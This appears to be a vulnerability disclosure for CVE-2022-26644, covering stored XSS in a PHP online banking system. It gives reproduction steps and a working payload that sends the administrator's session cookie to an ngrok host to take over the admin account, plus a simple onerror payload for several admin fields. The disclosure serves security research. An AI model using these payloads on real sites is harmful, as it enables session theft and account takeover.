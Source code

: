 # Tittle: Online Banking System Stored XSS

## Author: (Erik451)

## Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)

## Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)

## Version: OBS 1.0

## CVE: CVE-2022-26644
-  **Description:** A XSS issue in OBS v1.0 allows remote attackers to inject JavaScript in the description parameters. XSS to Privilege Escalation
- Client can craft a malicious payload, when the administrator goes to "account managment menu" the payload will be executed and the administrator cookies will be sent to the attacker server.

### Steps to reproduce:
- 1- Go to [http://localhost/banking/client/?page=user](http://localhost/banking/client/?page=user)
- 2- Edite your profile name and paste the payload
- 3- Using a ngrok http server to get the request with the administrator cookie

Payload used to steal the session Cookie: 
```js
<script>var i=new Image;i.src=`https://2c32-81-9-194-204.ngrok.io/?c=${document.cookie}`;</script>
```

![ngrokclient](https://user-images.githubusercontent.com/47476901/160634443-a0b5afaa-a2f0-404f-9bb2-a3437e534c6d.png)


#### **Admin Session**

The administrator goes to the manage accounts menu and will execute the payload in background.
Now we have the admin cookie on the request

![admincookie](https://user-images.githubusercontent.com/47476901/160634422-8cd4820c-447a-457e-8a66-7e3203fc6f27.png)


Edit our cookie with the new admin cookie, reload admin page and now we are administrators.

![loginasadmin](https://user-images.githubusercontent.com/47476901/160634399-08084a58-6c77-47b8-97c7-27c9fb274d8c.png)


---

#### Other XSS

Payload used: `<img src="x" onerror=prompt(1)>`

**Announcements Tittle**

-  1- Go to [http://web.com/admin/?page=announcements/manage_announcement](http://web.com/admin/?page=aannouncements/manage_announcement)
-  2- Create or edite an announcement and paste the payload
		
![XSSannouncement](https://user-images.githubusercontent.com/47476901/160634336-a3d0ff72-878b-4102-9eff-5759581f3695.png)
    
![XSSannouncement2](https://user-images.githubusercontent.com/47476901/160634352-303bc621-c09d-4993-86e0-316b183809ab.png)

**Accounts Name**

-  1- Go to [http://web.com/admin/?page=accounts/manage_account](http://web.com/admin/?page=accounts/manage_account)
-  2- Create or edite an accounts and paste the payload, client account will execute the payload on his session.

**System Info Name**	

 -  1- Go to [http://web.com/admin/?page=system_info](http://web.com/admin/?page=system_info)
 -  2- Edite the app/system info and paste the payload
 -  3-  This is the configuration of the app, all clients will see the tittle on the app, the XSS will be executed.
 
![XSSsysinfo](https://user-images.githubusercontent.com/47476901/160634484-659cfb45-6e0e-446a-be77-76296ee56383.png)

